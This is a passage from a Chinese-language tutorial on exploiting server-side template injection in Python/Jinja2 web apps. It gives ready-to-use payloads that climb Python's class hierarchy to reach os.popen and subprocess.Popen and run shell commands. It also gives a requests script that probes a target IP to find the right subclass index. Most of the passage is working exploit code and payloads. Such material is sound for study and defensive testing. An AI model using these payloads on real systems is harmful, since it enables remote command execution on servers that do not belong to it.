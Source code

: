 ```
...


```

随便挑一个子类构造 payload 即可：

```
{{[].__class__.__base__.__subclasses__()[168].__init__.__globals__['linecache']['os'].popen('ls /').read()}}

{{[].__class__.__base__.__subclasses__()[168].__init__.__globals__.linecache.os.popen('ls /').read()}}


```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174659-26292458-bd3e-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210525174659-26292458-bd3e-1.png)

### 寻找 subprocess.Popen 类执行命令

从 python2.4 版本开始，可以用 subprocess 这个模块来产生子进程，并连接到子进程的标准输入 / 输出 / 错误中去，还可以得到子进程的返回值。

subprocess 意在替代其他几个老的模块或者函数，比如：`os.system`、`os.popen` 等函数。

首先编写脚本遍历目标 Python 环境中含有 linecache 这个函数的子类的索引号：

```
import requests

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36'
}

for i in range(500):
    url = "http://47.xxx.xxx.72:8000/?name={{().__class__.__bases__[0].__subclasses__()["+str(i)+"]}}"

    res = requests.get(url=url, headers=headers)
    if 'linecache' in res.text:
        print(i)

# 得到索引为245


```

则构造如下 payload 执行命令即可：

```
{{[].__class__.__base__.__subclasses__()[245]('ls /',shell=True,stdout=-1).communicate()[0].strip()}}

# {{[].__class__.__base__.__subclasses__()[245]('要执行的命令',shell=True,stdout=-1).communicate()[0].strip()}}


```
